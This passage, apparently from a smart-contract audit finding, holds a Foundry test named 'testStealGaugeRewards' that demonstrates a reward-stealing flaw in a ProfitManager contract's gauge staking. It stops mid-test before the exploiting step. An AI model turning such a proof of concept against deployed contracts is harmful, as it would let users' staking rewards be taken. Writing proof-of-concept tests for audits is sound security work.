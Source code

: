 > Coded PoC: Add following test in "../unit/governance/ProfitManager.t.sol" file and execute it with `forge test --mt testStealGaugeRewards -vvv`
> 
> ```solidity
>     function testStealGaugeRewards() public {// H4
>         // grant roles to test contract
>         vm.startPrank(governor);
>         core.grantRole(CoreRoles.GOVERNOR, address(this));
>         core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
>         core.grantRole(CoreRoles.GUILD_MINTER, address(this));
>         core.grantRole(CoreRoles.GAUGE_ADD, address(this));
>         core.grantRole(CoreRoles.GAUGE_PARAMETERS, address(this));
>         core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
>         vm.stopPrank();
> 
>         uint256 guildAmount = 100e18;// `stake` amount (incrementGauge, decrementGauge weight amount)
> 
>         vm.prank(governor);
>         profitManager.setProfitSharingConfig(
>             0.5e18, // surplusBufferSplit
>             0, // creditSplit
>             0.5e18, // guildSplit
>             0, // otherSplit
>             address(0) // otherRecipient
>         );
>         guild.setMaxGauges(1);
>         guild.addGauge(1, gauge1);
>         guild.mint(alice, guildAmount);
>         guild.mint(bob, guildAmount);
> 
>         vm.prank(alice);
>         guild.incrementGauge(gauge1, guildAmount);
>         vm.prank(bob);
>         guild.incrementGauge(gauge1, guildAmount);
> 
>         // simulate 40 profit on gauge1:
>         // - 20 should go to surplusBuffer;
>         // - 20 should be split equally between alice and bob
>         credit.mint(address(profitManager), 40e18);
>         profitManager.notifyPnL(gauge1, 40e18);
> 
>         assertEq(profitManager.claimRewards(alice), 10e18, "alice claimRewards1 == 10e18");
>         assertEq(profitManager.claimRewards(bob), 10e18, "bob claimRewards1 == 10e18");
>         
>         assertEq(profitManager.userGaugeProfitIndex(alice,gauge1), 1.10e18, "alice userGaugeProfitIndex != 1.10 e18");
>         assertEq(profitManager.userGaugeProfitIndex(bob,gauge1), 1.10e18, "bob userGaugeProfitIndex != 1.10 e18");
> 
>         // bob unstake
>         vm.prank(bob);
>         guild.decrementGauge(gauge1, guildAmount);
>         assertEq(guild.getUserGaugeWeight(bob, gauge1), 0, "bob is still staking in gauge1");
> 
>         // simulate a 16 credit profit split:
>         // - 8 goes to surplus buffer;
>         // - 8 goes to the guildSplit => 100% to alice since she's the only staker
>         credit.mint(address(profitManager), 16e18);
>         profitManager.notifyPnL(gauge1, 16e18);
>         assertEq(profitManager.claimRewards(alice), 8e18,  "alice second round of rewards");
> 
>         // bob stakes again 
>         vm.prank(bob);